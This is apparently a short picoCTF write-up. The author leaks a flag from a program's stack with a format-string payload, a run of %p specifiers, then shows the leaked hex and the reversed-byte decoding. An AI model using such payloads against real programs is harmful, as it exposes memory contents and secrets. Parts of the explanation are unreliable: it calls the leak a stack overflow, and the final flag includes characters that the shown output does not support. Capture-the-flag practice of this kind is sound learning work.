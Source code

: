 # What I did
Program takes user input in the form of story and we can add format specifiers there to access the flag. User input can be 127 characters but we can access more space using format specifiers thus causing an ovefflow of the stack.
On inputting format specifier %p, I got the following output:
```
Tell me a story and then I'll tell you one >> 
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Here's a story - 
0xff9aa4c00xff9aa4e00x80493460x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x804c0000xebf7986e0x804838d0xebf959900xff9aa5440xebf95b500xebf614100x10x1(nil)0xebf614100x10xebf95000
```
On finding the difference between two of these, we get the offset which is 32
Then on entering several different format specifier attacks, I got a hex value which on converting to text, I got a jumbled up version of the flag:
ocip{FTCk43L_gn1g4lFff0_4tS_9_kc06f5}
ocip{FTCk43L_gn1g4lFff0_4tS_C06f5}
It seems as if it has reverse the flag as ocip reversed is pico and k43L reversed gives L34k and FTC reved is CTF, n1g4lFff0, this seems like Gl4g 0ff and 1n.
I this managed to figure out the first part.
picoCTF{L34k1ng_Fl4g_0ff_St4ck_C06f5716}
